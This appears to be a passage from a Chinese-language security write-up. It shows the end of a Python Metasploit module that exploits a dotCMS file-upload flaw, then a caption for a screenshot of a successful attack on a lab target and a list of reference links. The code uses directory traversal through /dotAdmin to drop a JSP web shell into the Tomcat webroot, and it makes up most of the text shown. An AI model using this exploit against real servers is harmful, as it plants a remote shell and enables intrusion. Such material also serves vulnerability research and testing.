             base_url = find_base_url(args)
            shell = make_shell()
            files = {f"../../../../../../../../../srv/dotserver/tomcat-9.0.41/webapps/ROOT/html/js/dojo/abc.jsp": shell}

            url = base_url + "/dotAdmin"

            if exploit(base_url,url,files) :
                module.log('Exploit completed', level='good')
            else:
                module.log('Exploit failed', level='error')

        except Exception as e:
            module.log(str(e), level='error')

    if __name__ == '__main__':
        module.run(metadata, run)
    ```

## 在Metasploit中使用testcase, 對靶機掃描/利用成功之截圖
![](https://i.imgur.com/m4iSKHZ.png)



-----
### 參考資料

https://nosec.org/home/detail/5007.html

https://www.henry4e36.top/index.php/archives/40.html#cl-3

https://github.com/jheysel-r7/metasploit-framework/blob/dotcms_file_upload_rce/modules/exploits/multi/http/dotcms_file_upload_rce.rb

https://blog.assetnote.io/2022/05/03/dotcms-rce-advisory/




